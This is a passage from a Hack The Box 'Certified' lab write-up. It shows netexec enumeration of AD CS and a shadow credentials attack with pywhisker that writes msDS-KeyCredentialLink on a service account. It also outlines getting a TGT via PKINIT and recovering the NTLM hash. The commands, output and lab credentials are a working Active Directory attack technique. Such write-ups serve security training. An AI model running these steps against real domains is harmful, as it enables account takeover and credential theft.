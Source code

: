 ```shell
MemberName                  : management_svc
MemberDistinguishedName     : CN=management service,CN=Users,DC=certified,DC=htb
MemberSID                   : S-1-5-21-729746778-2675978091-3820388244-1105
```



Checking if we have AD CS in the envuronment.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ netexec ldap 10.129.231.186 -u  judith.mader -p 'judith09' -M adcs  
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.129.231.186  389    DC01             [+] certified.htb\judith.mader:judith09
ADCS        10.129.231.186  389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.231.186  389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.129.231.186  389    DC01             Found CN: certified-DC01-CA
```

ADCS is present, so I can update the **msDS-KeyCredentialLink** attribute of **management_svc** and then perform Kerberos authentication to obtain a TGT for that account using PKINIT (public key approach to Kerberos pre-authentication).  We can first use pyWhisker to update the **ms-Ds-KeyCredentialLink** of **management_svc** with a key-pair using **judith.mader** who we set to have **GenericWrite** over the account. We can then use the .pfx certificate with **PKINIT** auth to obtain a TGT for **Management_Svc** and finally recover the NTLM hash for persistence via `unpac-the-hash`.

## Shadow Credentials
Let's start by cloning the [pywhisker](https://github.com/ShutdownRepo/pywhisker) repo from GitHub.
```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ git clone https://github.com/ShutdownRepo/pywhisker.git         
Cloning into 'pywhisker'...
remote: Enumerating objects: 192, done.
remote: Counting objects: 100% (66/66), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 192 (delta 56), reused 56 (delta 56), pack-reused 126 (from 1)
Receiving objects: 100% (192/192), 2.08 MiB | 2.33 MiB/s, done.
Resolving deltas: 100% (95/95), done.
```

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$                                                                                                                                                                             
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ python3 ./pywhisker/pywhisker.py -t management_svc -a add --dc-ip 10.129.231.186 -u  judith.mader -p 'judith09' -f management_svc_cert
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 35a786b6-d748-b33a-a112-f6ca8d7537a2
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: management_svc_cert.pfx
[*] Must be used with password: mhzjFxClRQCixnbEXNG7
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
